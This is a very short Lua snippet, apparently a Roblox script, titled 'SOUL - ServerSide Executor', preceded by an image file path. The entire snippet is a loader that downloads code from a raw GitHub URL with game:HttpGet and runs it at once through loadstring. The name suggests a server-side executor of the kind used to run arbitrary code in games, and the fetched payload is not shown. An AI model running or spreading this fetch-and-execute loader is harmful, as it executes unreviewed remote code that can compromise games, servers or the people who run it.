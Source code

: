 local SOUL = "SOUL - ServerSide Executor"
local url = "https://raw.githubusercontent.com/Obunga-666/S-O-U-L/refs/heads/main/E-x-e-c-u-t-o-r"
local scriptContent = game:HttpGet(url)
local loadstring = loadstring(scriptContent)()
